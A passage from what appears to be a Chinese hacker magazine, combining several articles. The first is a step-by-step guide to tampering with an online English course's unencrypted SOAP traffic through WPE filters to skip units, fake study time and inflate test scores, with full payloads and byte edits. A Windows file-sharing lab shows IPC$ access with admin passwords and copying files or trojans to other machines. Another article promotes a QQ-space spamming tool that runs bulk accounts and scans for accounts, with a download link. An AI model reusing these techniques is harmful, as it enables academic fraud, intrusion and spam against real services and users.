- 7. saveListeningUnitAchievement，上传本章节测试成绩，重点在这里
- 8. getUnitCheckReport，获取测试报告，便于客户端生成图形

其中在 SetLearnProcess 之前需要首先进行 GetServerTime、SetLearnTime 两个过程，GetServerTime 返回的时间将被当作数据传递给 SetLearnTime 和 SetLearnProcess 过程使用。

我以第三册为例，每个单元设置学习进度大约 20 次。**再提一下 SectionID 的命名标准，示例数据包中 SectionID 为 3A1B，3 代表第三册，A 代表第 10 单元。其中，1 代表处于学习模块，B 代表学习进度为第 11 节。**

每个单元学习模块为 16 个章节，按 1-10-A-J 顺序设置。测试模块共 5 节，命名如 3A01，第三位是 0，第四位 1 代表第一部分，即 listening 听力。每四单元有一个附加测试，Section test 1、2、3 分别对应章节 F、G、H。到这里，分析差不多就完成了。

### 方法一：制作 WPE 过滤器

下面你将看到数据包不加密的严重后果，以后大家写程序要引以为戒。

1、单元内任意跳转，比如第 9 单元第一节直接跳转至第 9 节，忽略前面 8 节不做。把 11、1A 进行 hex 转码后变成 31 31 和 31 41，按照如图 1 所示分别填入“搜索”和“修改”中。

当刚做到第 9 单元时，退出学习系统，重新点桌面图标，在登录界面，利用 WPE 打开学习系统进程，一定要记得启动过滤器。然后输入账号密码登录，以下是启动过滤器前后的对比图，如图 2、图 3、图 4。


2、单元间任意跳转，示例从 section test B 直接跳转至第 9 单元。同样把 3G、39 进行 hex 转码后变成 33 47 和 33 39，与上面的方法一样添加到过滤器，启动过滤器前后对比图如图 5、图 6。说明服务器没有检查总测试 2 是否已做完就能跳转到第 9 单元。


3、时间伪造，一般认为那些总计时间没有超过 10 个小时而做完的题一定是抄了答案，所以这个还是有必要的。一起来看 SetLearnTime 动作向服务器发送的部分数据包：

```xml
<beginTime xmlns:SOAPSDK6="http://www.open.com.cn">2009-3-25 17:04:23</beginTime><endTime xmlns:SOAPSDK7="http://www.open.com.cn">2009-3-25 17:04:49</endTime>
```

我们只要从 `</endTime>` 位置向前偏移填充想伪造的时间，就可以成功实现了。如把 04 分钟强制改成 14 分钟，那么这个章节你就做了 10 分 26 秒，过滤器截图如图 7。

要做完一个单元至少提交 16 次 SetLearnTime，所以一旦时间修改不恰当，总计时间积累将以惊人的速度增加，此种修改方法时效性不好。当然，如果你看准手艺了，临时修改这个时间还是可行的，不然提交的时间比不伪造更可疑。


4、成绩伪造，首先看一下分数提交时向服务器发送的数据包：

```xml
<?xml version="1.0" encoding="UTF-8" standalone="no"?><SOAP-ENV:Envelope xmlns:SOAPSDK1="http://www.w3.org/2001/XMLSchema" xmlns:SOAPSDK2="http://www.w3.org/2001/XMLSchema-instance" xmlns:SOAPSDK3="http://schemas.xmlsoap.org/soap/encoding/" xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/"><SOAP-ENV:Body><saveListeningUnitAchievement xmlns="http://www.open.com.cn"><userid xmlns:SOAPSDK4="http://www.open.com.cn">2210</userid><levelUnit xmlns:SOAPSDK5="http://www.open.com.cn">3B05</levelUnit><listening xmlns:SOAPSDK6="http://www.open.com.cn">96</listening><vocabulary xmlns:SOAPSDK7="http://www.open.com.cn">96</vocabulary><grammar xmlns:SOAPSDK8="http://www.open.com.cn">100</grammar><spelling xmlns:SOAPSDK9="http://www.open.com.cn">100</spelling><speaking xmlns:SOAPSDK10="http://www.open.com.cn">100</speaking><isComplete xmlns:SOAPSDK11="http://www.open.com.cn">1</isComplete></saveListeningUnitAchievement></SOAP-ENV:Body></SOAP-ENV:Envelope>
```

制作一个过滤器，在 `</listening>` 位置向前偏移 2 个单位填充 99，这样 listening 就由 96 变成 99 了。但是这样会出现意想不到的事情，比如将导致标签不完整而成绩提交出错，甚至出现 199 等不可预知的分数等等。于是变通一下，遇到 `<listening>` 就强制性地从 `</listening>` 位置开始向后覆盖，修改如下：

```xml
<listening xmlns:SOAPSDK6="http://www.open.com.cn">99</listening>
<vocabulary xmlns:SOAPSDK7="http://www.open.com.cn">99</vocabulary>
<grammar xmlns:SOAPSDK8="http://www.open.com.cn">99</grammar>
<spelling xmlns:SOAPSDK9="http://www.open.com.cn">99</spelling>
<speaking xmlns:SOAPSDK10="http://www.open.com.cn">99</speaking>
<isComplete xmlns:SOAPSDK11="http://www.open.com.cn">1</isComplete>
```

当然，制作这个过滤镜在输入时可能会需要一点时间，hex 输入很麻烦，未满是否需要更少 0 或者 00 截断数据包后那部分内容，本人没有测试，理论上是需要的。

### 方法二：制作 EXP

在 0903 期我讲过 EXP 编程基础，对于这个程序同样可以采用那个方法写成绩提交的 EXP。理论上可行，我没有去测试，方法重要，结果次之。

这里再提一下构造数据包的方法，把包复制出来，粘贴到记事本中，去掉“格式”->“自动换行”的对勾，把每一个换行的地方替换成 `\r\n`，还有不要忘了消息头和消息体之间是有两组 `\r\n` 的。代码本人就不提供了，有疑问自己去看 0903 期的《黑客手册》吧。

- 1. 获取账号、密码等教务或登录过程；构造数据包；取得 COOKIE、USERID、起始 SectionID 等。
- 2. 提交设置时间和选段的请求。由 WPE 方法的实现说明服务器没有对提交的数据包作足够的检查；比如不会判断课程学习的逻辑顺序；导致课程一单元之间可以任意跳转。再者，在这里你可以构造适当的请求给服务器，从 11 直接跳到 01；跳过学习而直接测试。发送 GetServerTime、SetLearnTime、SetLearnProcess 请求来伪造学习时间和设置进度；当然要想做得完美仅仅这样是不够的，更好的方法让读者去发现吧。


```

## 浅谈操作系统原理（二）

图五爷　jian派 HackRain

接着上一期的专题，我们继续往下学习新的内容吧。

### 3. 线程

继续深入，从“输入井”到内存，从作业到进程，操作系统也实现了“输入井级别”到内存级别的并发，但最终需要实现 CPU 级的并发，才能更大程度提高系统的并发性能。而进程的活动只存在于内存中，且不能直接使用 CPU，只起到分配 CPU 资源的作用，使用 CPU 资源的真正对象被称为“线程”。

**线程也是程序的一部分，是活动且有生命周期的。**

线程也产生于内存，并且在内存中存在相当长的时间，但它的主要活动区域是 CPU，从运行到灭亡都存在于 CPU。可以说线程是程序中能被操作系统调度并进入 CPU 的最小程序单位，它能直接使用进程分配的 CPU 资源。

**进程产生进程时两者是父子关系，线程同样产生线程，但线程之间是相对独立的，没有直接的关系。**因为 CPU 在每一个瞬时只能进入一个线程，当线程进入 CPU 时立即产生一个新的线程，新线程仍停留在内存中，但原线程已进入 CPU，两者间便隔绝开，不可能有直接的关系。

线程相对线程是独立的，但它在内存中的存在不是独立的，它只存在于所属进程分配的内存资源之中。相当于其程序产生了进程和线程，进程向 CPU 申请资源，再由线程来使用这些资源，它们都是为运行程序而服务的，只是分工不同。

操作系统对于线程的管理依靠 TCB（Thread Control Block，线程控制块）来实现，线程与 TCB 同样共生共灭。线程在生命周期内的各种变化状态，以及对 CPU 与寄存器的使用状况，直接由对应 TCB 的参数来说明和表示。

下面来了解一下线程的各种状态，线程具有四种状态：

- 1. 新线程的状态
- 2. 可运行状态
- 3. 灭亡状态
- 4. 不可运行状态

#### （1）新线程的状态

当其进程处于运行状态时，分配得到 CPU 资源，此时所属的线程会进入 CPU 中使用得到的 CPU 资源，此刻该线程会立即产生一个新线程，这个新线程仍使用原线程所使用的内存空间。这个新线程所处的状态就叫作“新线程”状态。

#### （2）可运行状态

进入 CPU 之后，进程便处于可运行状态，该状态下的线程使用其所属进程分配的 CPU 资源，运行自身包含的程序段。可以说，此时程序的运行正式进入可视化（即用户可通过输入输出设备感知到程序的运行）。

#### （3）灭亡状态

当一个线程运行完自身包含的程序段，会在 CPU 中灭亡，此时便处于灭亡状态，且 TCB 也伴随其灭亡。而在下一个瞬时，新线程进入 CPU 进入可运行状态。

#### （4）不可运行状态

当线程处于内存中，都可看作处于不可运行状态。

### 4. 超线程

在操作系统中，线程在 CPU 中的开发级别是目前最高的了。但若能做到更高级别的开发，计算机性能也将进一步提升，于是便出现了超线程概念。这是一种基于 CPU 硬件指令的概念，实现程序在 CPU 内部场所的开发。但这并不在操作系统研究范畴，我们也就仅了解到此。


小贴士：CPU 内部构造包括高端晶体振荡器（内部时钟）、ALU（算术逻辑运算部件）、控制器及一系列寄存器等，超线程的开发场所一般处于后两者中。

### 5. 调度算法

作业进入输入井，线程分配 CPU 资源，线程进入 CPU，对象状态转换，这一系列进入转换的过程都需要操作系统的“调度”，调度的执行者就是操作系统。如同生活中干好某一件事需要一个清晰的思路一样，操作系统也要有“思路”，在计算机中叫做“指令”，这样才能实现调度。一般，对实现调度的清晰指令被称作“调度算法”。

其实在这之前我们学习的作业、进程、线程的工作状态就是调度算法的一部分。依照作者个人的理解，可以简单地把这些调度算法看成是多个条件语句，当触发符合的条件，便实现或停止调度。

比如一个处于新线程状态的线程，具备了进入 CPU 的条件，便触发了算法规则，这个算法确认该条件符合规则，于是操作系统先依照算法将此线程调度至 CPU，使其进入“可运行状态”。我们在前面所说的工作状态及工作线程其实便是这些算法中的条件。相应的工作状态触发相应的调度方式，何时将对象调至内存，又何时分配 CPU 资源，这些具体的调度方式都离不开对象此时所处的状态。

#### （1）先进先出调度（FIFO）

这是操作系统的最初调度算法，顾名思义，在此算法中，最先产生的对象最先被调度。比如正常情况下，内存中最先产生的进程会自动排在等待队列首位，最先被调度至就绪状态，进而最先被调度至运行状态，再最先被调度分配到 CPU 资源。

FIFO 算法是最简单可行的算法，不需要更为复杂的计算，是一般情况下效率最高的算法。但 FIFO 算法不能灵活应对操作系统调度中面临的各种问题，比如一些短作业、短进程完全可以被优化调度以提高效率，而 FIFO 只死板地依照对象的先后顺序来调度，反而大大降低了其运行效率，其致命的弱点就在于无法实现对象的优先级规定。

打个比方，假如将其放入一个宏观的环境，不讨论作业及以下的对象，直接以程序为对象，操作系统加载了 Photoshop 与 QQ 至内存。若依照 FIFO 算法，不赋予两者优先级，计算机会先运行第一个被加载的 PS。使用过这两个程序的朋友都知道，PS 比 QQ 庞大 N 多倍，那么只有等待 PS 漫长的运行结束后，QQ 才会被运行。

设想，若 FIFO 调度算法懂得判断两者大小，以赋予它们优先级，最先运行 QQ，便不至于使两者运行的等待时间都变得漫长了。当然，这只是个比方，不符合操作系统的原理，只是为了便于大家理解，而真正的原理相信大家都明白，此例切不可当真！

#### （2）完全优先级调度

这是一种针对 FIFO 改进的算法，在某一时刻，该算法赋予每个进程优先级，再依照优先级的先后来调度进程。但由于无法客观地确定优先级，且每一个实时进程的数量和优先级都是不断变化的，让该算法的实现变得异常复杂，所以它由于可行性不高，在实际中几乎不被使用。不过，它所体现出的优先级概念依旧是先进且巧妙的。

#### （3）时间片轮转调度

这种调度算法首先会采用 FIFO 的原理，为进程排好队，然后为每个进程分配一个调用资源的“时间片”，让进程在其内运行。若运行结束则进程完成使命，随即灭亡。若未能运行结束，则依照该算法规则转至下一个算法的运行，如此轮转数次。这样，一些较小的进程可能在第一、二轮的轮转中就运行结束，而那些较大的进程也在 N 次轮转中被运行得越来越多，大小越来越小。

好比我们写作业，有语、数、外三门，且三门的完成时间比为 6：3：2（小时）。为了降低枯燥性，我们在第一小时内写语文，第二小时内写数学，第三小时内写英语，如此轮转进行，这样我们可以在第 6 小时内完成英语，第 8 小时完成数学，第 11 小时完成语文。

这种方式对“时间片”的长短不好控制，若太长，则使算法依旧如同 FIFO；若太短，很多较小的进程在轮转数次后依旧未能完成结束，反而使资源浪费在一次次的轮转中。研究人员通过实验所积累的经验，对时间片的长短有了很好的估算和控制，从而使时间片轮转调度成为一种较适用的调度算法，目前在操作系统中仍有使用。

#### （4）最短进程调度和最小剩余时间调度

这是两个原理相近的调度算法，前者根据某一时刻对所有进程运行时间进行估算，按进程运行所需时间从少到多排列优先级；而后者则估算每进程运行所需的剩余时间，按进程运行的剩余时间从少到多排列优先级。

但这两种相近的算法中，由于操作系统对进程运行时间的估算很困难、长进程少以参与调度等因素，很少被使用。

#### （5）多级反馈队列调度

综合以上多种调度算法的优点，诞生了多级反馈队列调度，这是目前最为先进的调度算法，广泛应用于最新的操作系统中。

该算法会为内存中存在的所有进程确定优先级，比如频繁调用子进程和数据库的进程，及需要人机交互的进程优先级较高等，这种优先级的确定不需要精确度有多高，而要求确定的速度快、花费资源低。一般优先级被分为 16 级、32 级或更多。

优先级相同的进程则按 FIFO 的规则来排成列，这样多级队列的组织速度会很快，且操作系统的调度更容易。

首先被调度的是最高的优先级，系统为此级产生一个随机的较短“时间片”。若在时间片内此级中某一个进程运行结束，该进程灭亡；否则，该进程结束运行，进入下一个优先级的队列末尾。

当一个优先级的进程全部调度结束（结束的标志是所有进程灭亡或进入下一级），操作系统会进入下一个优先级的调度。如此向下，随优先级的降低，优先级数和进程数量都在减少，直到所有进程运行结束。

新产生的进程会如何参与调度呢？这是个很有意思的过程，新进程不会被操作系统检测而划分优先级，而是直接放在最高级的队列末尾。若该队列内进程已全部运行结束，则先为其分配一个与最高级队列相对应的时间片。若在该时间片内运行结束，则新进程灭亡；否则将此进程放到下一级的队列末尾。如果下一级中进程也全部结束，则将上次分配的时间片时间放大一倍继续运行该进程，如此向下，直到该进程运行结束，或排到仍存在的优先级别的队列末尾。

这样做看似复杂，却因为调度的即时和直接而节约了尽可能多的资源。该调度算法无论对优先级的处理还是对新进程的调度都尽可能做到最简洁的处理，也代表着目前最先进的调度算法技术。可以说，调度算法是操作系统调度对象的规则，规范和约束着程序在计算机中的运行机制。

### 6. 本章小结

通过对作业、进程、线程和调度算法的学习，相信大家已基本了解操作系统管理应用程序的原理，下面从头到硬盘上的程序开始，回顾一遍程序通过操作系统在计算机中的“历程”吧。

程序首先被操作系统分为若干小部分，这些小部分被放入“输入井”，立即产生了以链排列的许多作业。操作系统同时为这些作业产生 JCB，通过 JCB 的描述来管理作业。当条件成熟，队首的作业被陆续调度进入内存（一个队首作业进入后，队列第二个作业自动转为队首作业）。

进入内存的作业由操作系统为其产生一个父进程，该进程又会产生自己的子进程，以此向下，但这种产生也是有限度的。每一个进程的产生伴随着 PCB 的产生，随软件的运行，进程的状态也在不断改变。处于就绪状态队列的首进程被操作系统调度，分配到 CPU 资源，即进入运行状态。

当一个进程在内存中出现，立即会出现一个隶属于该进程的线程和 TCB，该线程所属进程在进入运行状态时，其隶属的线程便也进入运行状态，被调度至 CPU 使用进程分配得到的资源，并会产生新的线程存在于原线程所处的内存空间中。

伴随一个个线程运行结束，在 CPU 中灭亡后，所属进程可能同样运行结束并灭亡，或在时间片内未运行结束，则继续等待下一次 CPU 资源的分配。如此往复，直至全部进程的灭亡，作业便会从内存退出回到输入井。若此作业有回写内容到原程序的功能，则回写，然后灭亡。当程序划分的所有作业一个个灭亡，此程序便运行结束。

伴随程序结束，操作系统管理程序一章也就到此结束了，第三章将介绍操作系统管理 CPU，敬请关注。

> 编辑点评：
>
> 已经是第二节的学习了，小菜们对操作系统的认识有没有进一步加深呢？对于我们常挂在嘴边的线程、超线程的说法，你是不是有更深刻的理解了？

## 菜鸟实验看 Windows 共享机制

从本文您可以了解 Windows 的两种共享机制。

其实共享有时候就是入侵，入侵有时候就是共享。相信很多朋友经常在网吧上网，其实入侵网吧的服务器，如果是 Windows 操作系统，并且你对 Windows 机制比较了解的话，几分钟搞定网吧服务器绝对不是吹气球！所以有必要好好了解一下，毕竟相对来说，入侵比防范更难！

**实验环境**：Windows 2003 虚拟机 + Windows XP 宿主机。它们的属性及设置如图 1 所示！

### 一、Windows 共享基础

我们知道从 Windows 2k 后，微软采用了两种共享机制，在 CMD 下输入：`net config workstation` 就可以查看到它们，执行结果如图 2 所示！下面我们对如图 2 所示的内容进行一些说明。

| 计算机名 | IP 地址 | 用户名 | 密码 | 共享信息 | 网卡标识 |
|---|---|---|---|---|---|
| MAC1 | 192.168.106.1 | administrator | qwer | 默认共享全部开放 | Nic1：虚拟网卡；Nic2：宿主机 |
| MAC2 | 192.168.106.128 | administrator | 123456 | 默认共享全部开放 | 一块网卡 |


#### 1. 基于 NetBIOS 协议的共享

因为我的计算机上安装了虚拟机，所以有类似 `NetBT_Tcpip_{711FC585-7107-4DBE-BA5F-B5593707145F}`、`{005056C00001}` 的两条记录，“711FC585-7107-4DBE-BA5F-B5593707145F”是一个 GUID。

所谓 **GUID**，是一个 128 位的随机数，它几千年内都是全球唯一的。要获得一个 GUID，我们可以使用 VC++ 中提供的工具——uuidgen.exe 或者 guidgen.exe，前者是一个命令行程序，后者是一个用户界面的程序！

`005056C00001` 是网卡的 MAC 地址！NetBIOS 协议最早由 Sytek 公司为 IBM 开发，后来 IBM 为其开发了扩展接口，就是 NetBIOS 协议。这两者使得 NetBIOS 构成了一个完整的协议，它主要用在应用程序之间，一般对应于 OSI 模型的会话和传输层。

随着 NetBIOS 协议的流行，很多平台和协议都对它进行了支持，TCP/IP 协议默认就是提供了 NetBIOS 的接口，所以我们在 Windows 中可以使用 `nbtstat` 命令查看 NetBIOS 名字！但是 IPX/SPX 对它并没有提供接口，所以微软专门开发了 NWLINK IPX/SPX/NETBIOS 兼容协议！**NetBIOS 通过 TCP 的 139，UDP 的 137、138 通信！**

#### 2. 基于 SMB 协议的共享

SMB 是在 NetBIOS 协议基础上由微软制定的一种文件共享协议，我一直觉得它是微软垄断的一个证据！因为它将其制作成了一个标准！在 Linux 上为了实现与 Windows 的资源共享，我们经常使用 SAMBA 服务，它就是使用的 SMB 协议。如果 Linux 要访问 Windows 中的资源，我们只要使用 smbclient 命令就可以了，如图 3 所示。

它使用 **TCP 的 445 端口** 进行通信，这里不得不再提起客户端／服务端的概念。其实网络上的每台计算机，在没有共享之前它们都是客户端。当一台计算机开放了共享，其它计算机去连接的时候，被连接的计算机就是服务端，这个 445 端口就是服务器的监听端口，但是客户端不一定使用它！

从图 2 中我们会看到 `NetbiosSmb (000000 000000)` 这个信息，它的意思是说 SMB 直接承载绑定到所有的网络接口上，这里的 `000000000000` 对应于 Windows 中的一个常数 `ADDR_ANY`，表示所有的地址，在 WINSOCK 编程中我们填写 `sockaddr_in` 结构的时候就是它了！

**注意：上面的两种机制同时存在于 Windows 中，它们是相互竞争的关系！**that's all, let's go!

### 二、实验过程

#### 1. 实验看两种共享是否都支持双向传输

##### （1）

在上面提及的实验环境下，不做任何设置，我们在 MAC1 的 CMD 中执行：`net use \\192.168.106.128\c$ "123456" /user:administrator`，然后输入：`netstat -an` 查看本地开放的端口，可能是使用的 SMB 共享，也可能使用的是 NetBIOS 共享。我的机器上第一次使用的是 SMB 共享，如图 4 所示！

##### （2）

在 MAC1 的 CMD 中，如果我们执行 `copy cmd.exe \\192.168.106.128\c$` 是肯定会成功的，以前的 IPC$ 入侵就是这样。但是如果我们在 MAC2 的 CMD 中输入：`copy cmd.exe \\192.168.106.1\c$`，将 cmd.exe 复制到 MAC1 中却提示如图 5 所示的错误！

##### （3）

在 MAC2 上使用 TCP/IP 筛选，依次选择“开始”－“运行”，输入 control 并回车，打开“控制面板”，进入“网络连接”。


### 菜鸟恶补


图 5　提示错误

在“本地连接”上右键选择“属性”，再选择“Internet 协议（TCP/IP）”单击属性，在弹出的对话框中点击“高级”，选择“选项”标签卡，双击打开“TCP/IP 筛选”，勾选“启用 TCP/IP 筛选”。在 TCP 中我们只允许 139，在 UDP 中我们只允许 137 和 138，确定后退出！

在“确定”退出后，我们继续单击“IP 筛选器列表”（注意别选错了）中的“添加”按钮，按照前面一样的操作，只是将第二个端口设为 445！这样，一个同时阻止 139 和 445 端口的 IPSEC 策略就设置好了，然后我们依相同的方法，再建立一个只阻止 445 端口的 IPSEC“安全策略——阻止宿主机 445 连接”。


图 6　复制成功

##### （4）

执行和（1）中相同的命令，再执行（2）中的操作，会发现 MAC2 能够将 cmd.exe 复制到 MAC1 上了，如图 6 所示！

结论：**NetBIOS 协议的共享具有双向性，SMB 协议的共享并不支持双向性**，因为两种共享机制的竞争关系，所以在实验中我们通过 TCP/IP 筛选的方法将服务端（MAC2）的 445 端口过滤，从而消除了 SMB 协议的竞争关系，让系统只进行 NetBIOS 共享！

这个特点其实很有意思，因为 NetBIOS 协议是基于双向数据传递，如果我们的系统将 445 端口关闭，只采用 NetBIOS 共享方式，那么有别的机器通过 139 连接我们的时候，就可以将我们的木马复制到它的机器上，实现一种类似的“蜜罐”的反击！实现的方法在网上有很多，大家可以自己学习。

#### 2. 实验看两种共享选择的过程

- 1. 在 MAC2 上利用 IPSEC 建立两个安全策略，一个是阻止 445 通信，一个是同时阻止 139 和 445 通信。
- 2. 具体操作：依次选择“开始”——“运行”，输入 `gpedit.msc` 后回车，打开组策略。选中“IP 安全策略，在本地计算机上”，在出现的右侧窗口中右键选择“创建 IP 安全策略”。在弹出的窗口中我们单击“下一步”，在新窗口中输入“阻止 139 及 445”，去掉“激活默认响应规则”前面的勾。
- 3. 继续单击“下一步”，单击“完成”后单击“添加”按钮，进入“新规则”属性中，继续单击“添加”，新增一个筛选器，在弹出的窗口中，“名字处”我们还是填上面的“阻止 139 及 445”，然后单击“添加”。
- 4. 在“寻址”选项卡中“源地址”处选“任何 IP 地址”，目标地址处选“我的 IP 地址”。单击“协议”选项卡，“协议类型”选择“TCP”，第一个端口设置为“从任意端口”，第二个端口设置选择“到此端口”，我们输入“139”，如图 7 所示！


图 7　筛选器属性

##### （2）

安全策略都建立好了后，我们在 MAC2 上先启用“阻止宿主机 445 连接”，在策略上点右键，选择“指派”就可以了，如图 8 所示！


图 8　指派策略

```text
net use \\192.168.106.128\c$ "123456" /user:administrator
netstat -an
```

然后执行 `net use \\192.168.106.128\c$ "123456" /user:administrator`，最后我们输入 `netstat -an` 查看开放的端口！如图 9 所示，也就是说 445 关闭的时候竞争关系不存在了，所以系统使用 139 进行共享！


图 9　查看开放的端口

##### （3）

在 MAC2 上启用“阻止 139 及 445”，然后进行与前面一样的操作！执行结果如图 10 所示！


图 10　执行结果

虽然在图 10 中我们可看到命令执行成功了，但是端口 139 和 445 都处于监听状态，也就是说虽然建立连接成功了；但是它们却不可以传递数据！也就是说是一个“鸡肋”，对机器来说没有多大意义。

但是这个现象纠正了我长期以来的一个错误。记得在我刚接触网络安全的时候，在国内一个安全站点看到过一句话——NetBIOS 协议有两种传输方式，一种是有连接传输，一种是无连接传输。我原来以为是在 139 和 445 都不可用的情况下使用 UDP 的 137 和 138 进行通信，其实并不是这样。

# 酷玩

验中，因为 LOGON SESSION 没有被清除，无论我们怎么屏蔽通信端口，经历比较长的时间后，命令总会返回“执行成功”的提示！

结论：**139 与 445 这两种共享机制的关系为互为竞争，139 的 TCP 端口用于验证或者传送数据，而 UDP 端口用于无效连接，但是它只可能接收或者传送数据，并不参与验证！**它们的关系如图 11 所示！

## 3、通过实验真正地理解明白一个最基本的道理

在防范 139 入侵的方法中，有一个被众人所熟知的方法——将“本地连接”属性中的“禁用 NetBIOS 协议”勾选！看到别人洋洋洒洒写出那么多操作步骤的时候，的确很吓人，但是原理很简单：因为协议本身就是网络进行交流的语言，如果你的机器不认识这种语言，那么自然就没用了。而这个设置是对相互通信的两个网卡进行的，如果我们将 NIC1，也就是宿主机网关上的 NetBIOS 协议禁用掉，是一件作用也起不到的。

所以，当我们禁用 NIC2 上的 NetBIOS 协议后，在 MAC2 的 CMD 中输入 `net use \\192.168.106.1\c$ "qwer" /user:administrator` 是无法执行成功的。当然，在做测试的时候也可能提示成功，但是传输数据的时候会发生错误！如图 12 所示！

连接成功的原因可能还是因为 LOGON SESSION 没有及时清除，这里我们不得不提到一个概念——LANA 号（LAN ADAPTOR），它与协议及网卡是唯一对应的关系。说白了就是为了标记每个网卡所安装的协议，比如 NIC1 安装有 TCP/IP 协议、NetBIOS 协议、IPX/SPX 协议，那么我们就可以记作 LANA0 NIC1 TCP/IP、LANA0 NIC1 IPX/SPX、LANA0 NIC1 NetBIOS。同理，对于 NIC2，我们可以表示为 LANA1 NIC2 TCP/IP……！所以，编写一些基于 NetBIOS 协议的程序时，我们必须保证两个通信的 LANA 号上存在相同的协议！


本文只是通过实验的方法，让大家理解共享的一些特点，如有错误希望大家多多指教，小弟在技术这块刚刚卖上“开裆裤”！

**编辑点评：**

通过一个个具体的试验，应该能让你深刻地体会到两种共享机制的作用了吧？最近共享方面的文章很少，可能大家都越来越忽视共享的重要性，这太不应该了。针对共享的攻击从几年前就已开始，直到现在还在内网渗透中依然有举足轻重的地位，是不能忽视的。

> **酷玩总评：**
>
> 酷玩当然要有酷一点的东西啦！一起来看看怎样自己修改手机 QQ 吧，让你的手机 QQ 独具个性，光彩夺目，在朋友面前好好炫耀一番吧。同时，这期我们的老朋友也带来了他的私藏，教小菜们刷留言。此外，必不可少的小技巧让你可以绕过验证加好友！最雷的是，看看我们的牛人是怎样用黄色网站来鉴别 QQ 好友是否在线的。当然，还有更多惊喜，自己在文章中发现吧！

## 玩转手机QQ

□风迹水

昨夜躺在床上，手机 QQ 开了声音，方便实时接受信息。谁知道消息太多，“嘀嘀嘀”的声音又单调，最后干脆关了声音，清净不少。突然我想，要是能把“嘀嘀嘀”的声音改掉，不就不烦了吗？于是拿起手机，开始研究了。

弄了半个小时，终于弄清楚了手机 QQ 的大部分原理，现在就来告诉大家怎么玩转自己的手机 QQ。

你需要的是一台智能手机，如果连最基本的条件都没有，那你的那个 JAVA 版的手机 QQ 就没办法修改了。由于手机 QQ 的安装文件默认是系统文件，所以你需要先破解手机权限（如果不知道破解手机权限的方法，请翻阅《黑客手册》08 年第 11 期）。

现在打开存储卡，可以看见很多文件夹，包括系统文件夹，如图 1。

首先，打开 `system\apps\QQ`，如图 2，你可以看见一个名为 `splash_logo.png` 的位图，这个也就是手机 QQ 开启时的那个画面，如图 3。找到一张同样比例（你手机屏幕多大，图片就多大，比如 N73 是 240*320）大小的图片代替它吧。

进入了手机 QQ 的登录界面，显示在屏幕上的 12 个小图标其实也是可以修改的，如图 4。我们打开存储卡的 `system\apps\QQ\config\NB` 文件夹，看见了有 24 个 dat 后缀的文件，如图 5，那些其实就是这些小图标了。


但是 dat 文件怎么修改呢？其实我们只要将一个 32*32 大小的图片文件后缀改为 dat 就可以了，因为 QQ 程序会自动读取 dat 文件中的图像显示出来，所以问题得到解决，如图 6。


图 7，看见了有三个 WAV 为后缀的音乐文件了吧？那就是手机 QQ 声音的秘密。GLOBAL.WAV 是有人上线的提醒，MSG.WAV 就是那单调的“嘀嘀嘀”了，SYSTEM.WAV 是那个熟悉的男人咳嗽声。


知道了声音的秘密，拿起你准备好的声音文件修改成自己喜欢的铃音吧！只要修改成一样的文件名，覆盖旧文件就好了。赶快试一下，现在你的消息提示变得更人性化了吧？最后说一句，如果你用读卡器连接电脑，那破解权限的任务就不需要做了，只需要你复制、粘贴。


## 网络揭秘——网上开店刷留言

网界江山

五月又到了，记得去年的五月是我第一次投稿，第一次看见自己的文字变成铅字……那种满足感记忆犹新啊。认识“黑手”一年了，在这相识一周年的日子里，我开始带给大家几期揭秘的文章，希望菜菜快速变老鸟。

首先就是我珍藏了大半年的东东了，想必很多“黑手”小弟都在网上看到过代刷空间留言的帖子吧？有的还要收费，什么 10R=一千条。有的黑黑可能要说了，以前有一款 TT86 的软件就可以刷，那你就太小菜了，那款软件怎么可能解决我们的需求呢，既然给“黑手”投稿，就一定把这个秘密揭露给大家。

先看一下 TT86 小秘书的留言方法，需要输入验证码！这样还不如自己到空间去刷呢，现在留言不需要验证码！如图 1。

好，主角上场——QQ 空间刷分使者，如图 2。乍看上去挺简陋的，But 麻雀虽小五脏俱全！无需登录自己的 QQ，只要在 QQ 号那里输入自己的 QQ 就好了，避免盗号危机。

接下来就需要导入 QQ 了，首先建一个记事本，以**QQ 号码——QQ 密码**为格式导入 QQ，如图 3（缺少 QQ 账号的菜菜可以找我索要 QQ，提醒“黑手”小弟们，现在盗 QQ 可是能判刑的！）。

导入 QQ 账号后就需要登录了，无法避免需要输入验证码，这只能怪 TX 了，不是软件级别低哦，如图 4。此外，这个软件还可以扫号哦！速度也是相当快，丝毫不逊色于收费的扫号软件，而且无需更换 IP。

接下来只需要选择好任务，开始工作就好了，如图 5，它有刷空间留言、刷日志评论、刷空间人气、刷日志人气的功能。其中刷日志人气是不需要导入 QQ 的！

不过还需要大家明白，每个号码在空间留言是有数量限制的，想多刷还是需要很多的号。那些网上刷留言的，不知道你有没有注意，还收购 QQ 号。这里提供下载地址：

http://gd.qianao.com:8080/servlet/FileDownload?filename=//faith0831/上传分享/2009/1/21/QQ空间刷分使者.rar&vid=0&vid2=0

OK，自己下载软件，网上开店刷留言吧！揭秘完成！


## 绕过 QQ 验证强加好友

在使用 QQ 的过程中，有的时候想加某一位自己很感兴趣的人，却因为对方设置了“回答问题”这样一种身份验证，无法直接加其为好友。绕过“回答问题”这种身份验证其实有两种方式：一种就是广为传播的腾讯 TM 法，还有一种就是鲜为人知的网页 QQ 法。

为了演示，我先在自己的大号上设置一下身份验证，采用的是“回答问题”这一种方式，如图 1。接着，我用小号来加一下，毫无疑问，肯定会出现如图 2 的验证界面。

现在，我们利用第一种，腾讯 TM 来强加好友。登入 TM 后，点击最下面的“添加和查找”，在“帐号”处填入我们需要添加好友的 QQ 号码即可，如图 3。

接着我们进行第二种方法的演示，首先进入 http://im.qq.com/webqq/ 登录入我们的 QQ 号，在右边的网页 QQ 界面找到“添加好友”，如图 4。

然后输入需要添加的 QQ 号码进行添加好友操作。虽然我们不再需要回答问题来进行验证了，但是还是需要对方同意才可以被加为好友的。TM 也是一样的，如图 5。

按“确定”后，对方就会出现提示了，如图 6。通过验证后我们发现已经被加为好友了，如图 7。

如果别人接受请求的话，我们就会加其为好友了；但如果对方在设置里选择的是“不允许任何人把我添加为好友”的话，我们以上两招也没有用！

以上就是两种绕过 QQ 验证回答问题的方式，网上虽然流传着金山游侠修改数据的方式，估计很少人会利用，或者此方式已经失去效用了！


## 快速鉴别 QQ 好友是否隐身

